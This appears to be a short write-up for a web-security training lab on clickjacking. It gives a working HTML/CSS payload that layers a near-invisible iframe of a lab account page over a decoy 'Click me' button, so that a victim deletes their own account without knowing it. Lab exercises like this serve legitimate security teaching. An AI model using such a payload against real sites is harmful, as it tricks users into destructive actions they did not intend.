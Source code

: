 # Lab: Basic clickjacking with CSRF token protection

Use the following exploit body to align a button over the Delete Account button to trick the user into deleting their account:
```
<style>
    iframe {
        position:relative;
        width:700px;
        height:600px;
        opacity:0.0001;
        z-index:2;
        }
    div {
        position:absolute;
        top:500px;
        left:60px;
        z-index:1;
        }
</style>
<div>Click me</div>
<iframe src="https://ac251f611f385bdac09e11da008d0065.web-security-academy.net/my-account"></iframe>
```
